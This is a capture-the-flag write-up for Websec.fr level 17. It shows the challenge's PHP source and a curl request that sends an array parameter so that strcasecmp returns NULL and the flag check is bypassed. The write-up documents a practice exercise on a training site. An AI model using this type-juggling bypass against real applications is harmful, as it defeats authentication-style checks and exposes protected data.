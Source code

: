 ```yaml
---
title: Websec.fr level 17 - baby steps
date: April 13, 2024 11:00:00
author: Elad
categories: [Write-ups]
tags: [Websec.fr]
---
```


# The level
![image](https://github.com/eladyesh/eladyesh.github.io/assets/102996033/522c92a2-8761-452e-afbf-f235b42c0da2)

![image](https://github.com/eladyesh/eladyesh.github.io/assets/102996033/b7bbf5f7-9fa6-4d6b-95b5-cf71cee8fff2)


```php
<?php
// source.php
include "flag.php";

function sleep_rand() { /* I wish php5 had random_int() */
        $range = 100000;
        $bytes = (int) (log($range, 2) / 8) + 1;
        do {  /* Side effect: more random cpu cycles wasted ;) */
            $rnd = hexdec(bin2hex(openssl_random_pseudo_bytes($bytes)));
        } while ($rnd >= $range);
        usleep($rnd);
}
?>
<!DOCTYPE html>
<html>
<head>
        <title>#WebSec Level Seventeen</title>
        <link rel="stylesheet" href="../static/bootstrap.min.css" />
    <meta http-equiv="content-type" content="text/html;charset=UTF-16">
</head>
        <body>
                <div id="main">
                        <div class="container">
                                <div class="row">
                                        <h1>Level Seventeen <small> - Guessing is fun!</small></h1>
                                </div>
                                <div class="row">
                                        <p class="lead">
                    Can you guess the flag?  You can check the sources <a href="source.php">here</a>.
                                        </p>
                                </div>
                        </div>
                        <div class="container">
                            <div class="row">
                                <form class="form-inline" method='post'>
                                    <input name='flag' class='form-control' type='text' placeholder='Guessed flag'>
                                    <input class="form-control btn btn-default" name="submit" value='Go' type='submit'>
                                </form>
                            </div>
                        </div>
                        <?php
                        if (isset ($_POST['flag'])):
                            sleep_rand(); /* This makes timing-attack impractical. */
                        ?>
            <br>
                        <div class="container">
                            <div class="row">
                                <?php
                                if (! strcasecmp ($_POST['flag'], $flag))
                                    echo '<div class="alert alert-success">Here is your flag: <mark>' . $flag . '</mark>.</div>';   
                                else
                                    echo '<div class="alert alert-danger">Invalid flag, sorry.</div>';
                                ?>
                            </div>
                        </div>
                        <?php endif ?>
                </div>
        </body>
</html>
```

OK, we see that there is this sleep function that just sleeps some random amount of time. <br>
Look at this 
```php 
if (! strcasecmp ($_POST['flag'], $flag)) 
```
Something interesting about strcasecpm, if we enter a list to it, it will return us NULL.
! NULL == TRUE

![image](https://github.com/eladyesh/eladyesh.github.io/assets/102996033/df890435-6ad3-4c6e-9201-d00d785c0ad7)

Cool, lets just curl with a data of an array right ? 

```powershell
curl https://websec.fr/level17/index.php -d "flag[]=IamTheBest&submit=Go"
```

![image](https://github.com/eladyesh/eladyesh.github.io/assets/102996033/5727029b-f81f-4430-b9c3-03266635443c)

Looks like we got the flag !
Thanks for reading !





